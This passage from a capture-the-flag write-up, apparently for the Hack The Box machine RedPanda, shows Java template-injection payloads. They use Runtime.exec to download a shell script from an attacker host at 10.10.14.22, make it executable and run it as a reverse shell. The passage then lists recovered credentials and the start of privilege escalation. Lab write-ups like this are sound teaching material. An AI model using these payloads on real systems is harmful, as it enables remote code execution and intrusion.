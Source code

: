 ```shell
python3 -m http.server 8090
```

- Then I'll apply the following payload to the petition:

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('curl http://10.10.14.22:8090/shell.sh -o /tmp/gitblanc.sh').getInputStream())}
```

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod +x /tmp/gitblanc.sh').getInputStream())}
```

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('/bin/bash /tmp/gitblanc.sh').getInputStream())}
```

> Got a reverse shell :D

![](Pasted%20image%2020250604194655.png)

### User flag

![](Pasted%20image%2020250604194840.png)

## Privilege Escalation

Inspecting the machine I found the file `.m2/wrapper/dists/apache-maven-3.8.3-bin/5a6n1u8or3307vo2u2jgmkhm0t/apache-maven-3.8.3/conf/settings.xml` which mentions `Java JDK 1.4.2_07`:

![](Pasted%20image%2020250604195148.png)

Inside of `/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java` I found user `woodenk`'s credentials:

![](Pasted%20image%2020250604195446.png)

> Credentials found: `woodenk:RedPandazRule`

We can now connect via SSH to the machine.

As I didn't find anything interesting, I decided to upload **pspy** to the machine and inspect for hidden sub-processes. There is a weird sub-process run by root:

![](Pasted%20image%2020250604200512.png)

```shell
2025/06/04 18:04:01 CMD: UID=0     PID=99652  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar 
```

As it is a custom script, I'll try to inspect its source code:
